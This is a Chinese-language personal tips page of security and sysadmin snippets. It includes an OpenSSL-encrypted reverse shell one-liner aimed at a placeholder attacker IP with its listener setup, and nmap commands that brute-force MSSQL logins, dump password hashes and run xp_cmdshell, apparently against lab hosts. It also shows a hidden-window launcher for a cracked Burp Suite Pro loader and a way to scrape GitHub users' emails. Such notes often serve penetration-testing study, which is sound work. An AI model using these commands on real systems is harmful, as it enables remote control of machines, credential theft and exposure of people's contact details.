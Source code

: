 ```yaml
---
title: Tips
date: 2021-04-10 12:56:45
---
```


*<u>随手记一些技巧向的东西，可能没什么用</u>*

-----------------------



OpenSSL加密反弹Shell

``` sh
#生成证书
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
#开启监听
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```


``` sh
#反弹Shell
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```



-----------------


Github查找账号的注册邮箱：

``` shell
curl https://api.github.com/repos/{owner}/{repo}/commits|cat|grep "email"
```

-----------

运行Burpsuite时隐藏Bat文件的窗口：

``` powershell
# Create File BurpLoader.bat
powershell -windowstyle hidden "java -javaagent:BurpSuiteLoader_v2021.2.1.jar -noverify -jar burpsuite_pro_v2021.2.1.jar"
```

-----------------

批量打包并加密文件：

``` python
import os

loc_7z = r'"C:/Program Files/7-Zip/7z.exe"'
output_file = 'archive.zip'
archive_dir = 'archive/dir/'
command = loc_7z+' a ' + ' -p123456 ' + output_file + archive_dir
os.system(command)

```

----------------

使用goaccess解析日志并导出HTML文件

``` bash
goaccess access* --log-format COMMON -o report.html
```

-------------------

python 解码Base64编码的文件

``` python
import base64

j='dGVzdAo='  #Base64 string here

with open('output.file','wb') as w:
    stream=base64.b64decode(j)
    w.write(stream)
```

----------------

java去混淆工具：

[Deobfuscator](https://github.com/java-deobfuscator/deobfuscator)

---------------------

Linux的数据流重定向


```
文件描述符：
    0 - 标准输入
    1 - 标准输出
    2 - 错误输出
    2>&1 - 把错误输出重定向到标准输出
```

------------

nmap获取MSSQL信息

```sh
#获取信息
nmap 10.4.16.254 -p1433 --script ms-sql-ntlm-info
nmap 10.4.16.254 -p1433 --script ms-sql-info
#暴力破解
nmap 10.4.16.254 -p1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
nmap -p1433 10.4.25.148 --script ms-sql-empty-password
#提取sys users
nmap -p1433 10.4.25.148 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,mssql.database=master,ms-sql-query.query="select * from syslogins" -oN output.txt
# hash dump
nmap -p1433 10.4.25.148 --script ms-sql-dump-hashes --script-args mssql.password=anamaria,mssql.username=admin
#执行命令
nmap -p1433 10.4.25.148 --script ms-sql-xp-cmdshell --script-args mssql.password=anamaria,mssql.username=admin,ms-sql-xp-cmdshell.cmd="type c:\\flag.txt"
```

